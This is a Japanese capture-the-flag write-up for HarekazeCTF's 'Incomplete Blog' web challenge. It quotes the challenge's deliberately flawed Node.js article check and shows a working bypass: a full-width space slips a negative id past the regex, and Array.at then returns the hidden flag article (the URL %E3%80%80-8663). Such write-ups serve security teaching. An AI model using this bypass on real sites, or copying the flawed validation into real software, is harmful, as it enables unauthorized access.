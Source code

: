 # Incomplete Blog:Web:201pts
JavaScriptでブログを作ってみました。  
ただ、まだ開発中ですし、有料記事のための課金システムも今頑張って作っているところで未完成です。なので、一部の有料にするつもりの記事は閲覧できません。ごめんなさい😉  
[http://incomplete-blog.harekaze.com](http://incomplete-blog.harekaze.com/)  
添付ファイル:  
- [incomplete-blog.zip](incomplete-blog.zip)  

---

I made a blog with JavaScript.  
This blog is currently under development. I'm working hard to implement a payment system for reading premium content, but it is not ready yet. So, more than 9000 articles that will be premium content are not available so far. Sorry for the inconvenience😉  
[http://incomplete-blog.harekaze.com](http://incomplete-blog.harekaze.com/)  
Attachments:  
- [incomplete-blog.zip](incomplete-blog.zip)  

# Solution
サイトにアクセスすると複数の記事があるようだ。  
Incomplete Blog  
[site.png](site/site.png)  
`/article/0`などで記事の中身が見られるようだが、10以上はアクセスできない。  
incomplete-blog.zipが配布されており、以下のようであった。  
```js
~~~
// generate articles
let articles = [];
for (let i = 0; i < 10000; i++) {
  articles.push({
    title: `Dummy article ${i}`,
~~~
  });
}
articles[1337] = {
  title: 'Flag',
  content: `Wow, how do you manage to read this article? Anyway, the flag is: <code>${flag}</code>`
};
~~~
app.get('/article/:id', async (request, reply) => {
  // id should not be negative 
  if (/^[\b\t\n\v\f\r \xa0]*-/.test(request.params.id)) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'Hacking attempt detected.'
    });
  }

  let id = parseInt(request.params.id, 10);

  // free users cannot read articles with id >9
  if (id > 9) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'You need to become a premium user to read this content.'
    });
  }

  const article = articles.at(id) ?? {
    title: 'Not found',
    content: 'The requested article was not found.'
  };
~~~
```
1337番目の記事にフラグがあり、`^[\b\t\n\v\f\r \xa0]*-`が禁止されている。  
jsの`at`は負の数でも要素をとれるが、`-`で開始することも禁止されている。  
ここで`parseInt`は全角スペースを挿入してもうまく動作することに気づく。  
```bash
$ node
> parseInt(" -1",10)
-1
> parseInt("　-1",10)
-1
```
あとは`全角スペース-(10000-1337)`で1337番目の記事が閲覧できる。  
`http://incomplete-blog.harekaze.com/article/%E3%80%80-8663`にアクセスしてやればよい。  
[flag.png](site/flag.png)  
flagが得られた。  

## HarekazeCTF{I_d0nt_kn0w_h0w_t0_m4ke_ctf_ch4llenges_t4sukete}